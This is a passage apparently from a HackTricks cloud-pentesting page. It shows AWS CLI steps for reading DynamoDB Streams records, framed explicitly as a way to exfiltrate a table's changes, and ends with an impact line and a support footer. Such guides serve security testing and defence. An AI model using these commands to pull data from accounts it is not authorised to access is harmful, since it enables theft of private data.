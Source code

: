 3. Get the shard iterator using the stream ARN:

```bash
bashCopy codeaws dynamodbstreams get-shard-iterator \
    --stream-arn <stream_arn> \
    --shard-id <shard_id> \
    --shard-iterator-type LATEST \
    --region <region>
```

4. Use the shard iterator to access and exfiltrate data from the stream:

```bash
bashCopy codeaws dynamodbstreams get-records \
    --shard-iterator <shard_iterator> \
    --region <region>
```

**Potential impact**: Real-time monitoring and data leakage of the DynamoDB table's changes.

<details><summary><strong>Support HackTricks and get benefits!</strong></summary></details>
